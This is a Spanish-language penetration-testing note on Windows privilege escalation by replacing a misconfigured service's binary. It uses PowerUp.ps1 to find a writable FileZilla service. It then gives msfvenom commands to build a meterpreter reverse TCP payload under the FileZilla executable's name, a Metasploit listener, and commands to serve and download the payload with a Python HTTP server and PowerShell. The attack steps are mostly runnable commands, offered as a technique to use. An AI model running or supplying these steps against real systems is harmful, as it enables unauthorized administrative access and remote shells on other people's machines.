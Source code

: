 
Hay servicios ejecutados en el background que tienen permisos elevados, la idea es conseguir detectar una configuración erronea de estos servicios.

Los pasos a seguir serían:

1. Identificar servicios vulnerables.
2. Analizar los permisos de esos servicios.
3. Modificar la configuración del servicio.
4. Reiniciar el servicio.

La técnica a realizar es Service Binary Replacement:

1. Detectar el servicio con permisos vulnerables
2. Remplazar el ejecutable.
3. Reiniciar el servicio.

Para poder detectar estos servicios mal configurados vamos a utilizar PowerUp.ps1:

```powershell
. .\PowerUp.ps1
Invoke-PrivescAudit
```

En este ejemplo nos muestra un binario de Filezilla que puede ser modificable y que se puede reiniciar.

![[Pasted image 20250218093210.png]]

Ahora vamos a generar un payload con msfvenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=our_ip LPORT=port -f exe > 'Filezilla Server.exe'

#Necesitamos ponernos a la escucha para cuando se ejecute el payload, esto se puede hacer mediante un nc o un http_handler

mfsconsole
use exploit/multi/handler
show options
set InitialAutoRunScript post/windows/manage/migrate

#Ahora creamos un servidor para transferir el archivo
python -m SimpleHTTPServer 80

#Desde el powershell podemos descargar el binario con:
iwr -UsePasicParsing -Uri 'http://ip/file' -OutFile 'ruta'
```

Una vez se reinicie el servicio deberíamos recibir la sesión en el meterpreter.

